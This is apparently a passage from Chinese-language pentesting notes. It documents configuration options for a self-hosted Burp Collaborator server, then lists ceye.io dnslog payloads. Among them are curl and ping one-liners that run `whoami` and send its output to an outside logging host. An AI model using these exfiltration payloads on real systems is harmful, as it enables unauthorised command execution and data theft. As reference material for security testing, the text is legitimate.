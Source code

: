 | SERVERDOMAIN                 | Collaborator 服务器将控制 DNS 的域或子域。DNS 功能需要此设置。                                                                                                                    |
| ---------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| workerThreads                | Collaborator 用于处理传入请求的线程数。                                                                                                                                           |
| eventCapture.localAddress    | 默认情况下，Collaborator 将侦听所有本地接口以捕获交互事件。如果指定，它将仅侦听已配置的接口。                                                                                     |
| eventCapture.publicAddress   | 用于捕获交互事件的公共 IP 地址。                                                                                                                                                  |
| eventCapture.http.ports      | 用于侦听 HTTP 交互事件的端口。如果正在转发端口 80，则只应从默认值更改。                                                                                                           |
| eventCapture.https.ports     | 用于侦听 HTTPS 交互事件的端口。如果正在转发端口 443，则只应从默认值更改。                                                                                                         |
| eventCapture.smtp.ports      | 用于侦听 SMTP 交互事件的端口。如果正在转发端口 25 和 587，则只应从默认值更改。                                                                                                    |
| eventCapture.smtps.ports     | 用于侦听 SMTPS 交互事件的端口。如果正在转发端口 465，则只应从默认值更改。                                                                                                         |
| eventCapture.https.hostname  | 用于生成自签名证书。有关详细信息，请参阅[SSL 配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。                                         |
| polling.localAddress         | 默认情况下，Collaborator 将使用相同的网络接口捕获交互事件和提供轮询请求。如果指定，它将使用不同的接口来轮询请求。                                                                 |
| polling.publicAddress        | 用于提供轮询请求的公共地址。                                                                                                                                                      |
| polling.http.port            | 用于通过 HTTP 轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。  |
| polling.https.port           | 用于通过 HTTPS 轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。 |
| polling.https.hostname       | 用于生成自签名证书。有关详细信息，请参阅[SSL 配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。                                         |
| metrics.path                 | 可以访问度量标准页面的 URL 路径。                                                                                                                                                 |
| metrics.whitelist            | 允许访问指标页面的客户端 IP 地址白名单。                                                                                                                                          |
| dns.ports                    | 用于侦听 DNS 查询的端口。如果正在转发端口 53，则只应从默认值更改。                                                                                                                |
| dns.interfaces               | 用于侦听 DNS 查询的本地接口列表。如果您的注册商要求您为每个权威名称服务器配置不同的 IP 地址，则可以使用多个网络接口并使用此选项配置其位置。                                       |
| dns.interfaces.name          | 用于在此接口上运行的名称服务器的主机名。每个名称服务器应使用不同的主机名（例如 ns1，ns2 等）。                                                                                    |
| dns.interfaces.localAddress  | 要绑定到此名称服务器的本地地址。                                                                                                                                                  |
| dns.interfaces.publicAddress | 与配置的本地地址对应的公共 IP 地址。通常，您需要在域的 DNS 记录中使用配置的主机名和公共 IP 地址。                                                                                 |
| LOGLEVEL                     | 标准输出所需 的[日志记录](https://portswigger.net/burp/documentation/collaborator/deploying#collaborator-logging)级别。                                                           |

## 0x03 dnslog 的更多骚操作

以下内容来自 dnslog 开放平台[**ceye.io**](http://ceye.io/payloads)。

#### 0x00 Command Execution

##### i. \*nix:

```bash
curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
```

##### ii. windows
